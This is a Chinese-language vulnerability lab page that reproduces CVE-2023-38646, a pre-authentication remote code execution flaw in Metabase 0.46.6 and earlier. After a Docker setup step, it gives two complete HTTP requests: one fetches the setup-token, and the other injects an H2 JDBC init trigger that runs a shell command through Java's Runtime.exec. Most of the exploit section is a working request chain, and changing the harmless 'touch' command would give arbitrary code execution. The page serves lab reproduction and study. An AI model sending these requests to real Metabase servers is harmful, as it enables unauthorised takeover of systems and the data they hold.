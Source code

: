# Metabase未授权JDBC远程代码执行漏洞（CVE-2023-38646）

Metabase是一个开源的数据分析平台。在其0.46.6版本及以前，存在一处远程代码执行漏洞，未授权的用户可以使用JDBC注入在服务器上执行任意代码。

参考链接：

- <https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/>
- <https://blog.calif.io/p/reproducing-cve-2023-38646-metabase>
- <https://mp.weixin.qq.com/s/MgfIyq0OJwnKOUF2kBB7TA>

## 漏洞环境

执行如下命令启动一个Metabase server 0.46.6：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:3000`可以查看到Metabase的安装引导页面，我们填写初始账号密码，并且跳过后续的数据库填写的步骤即可完成安装：

![](1.png)

## 漏洞复现

首先，我们需要先访问`/api/session/properties`来获取Metabase的`setup-token`：

```
GET /api/session/properties HTTP/1.1
Host: localhost:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

![](2.png)

要利用漏洞，必须要获取这个Token。

接着，将刚才获取的`[setup-token]`替换进下面这个请求后发送：

```
POST /api/setup/validate HTTP/1.1
Host: localhost:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 739

{
    "token": "[setup-token]",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;",
            "advanced-options": false,
            "ssl": true,
"init": "CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\u000A\u0009java.lang.Runtime.getRuntime().exec('touch /tmp/success')\u000A$$"
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

可见，`touch /tmp/success`已成功在Metabase容器中执行：

![](3.png)
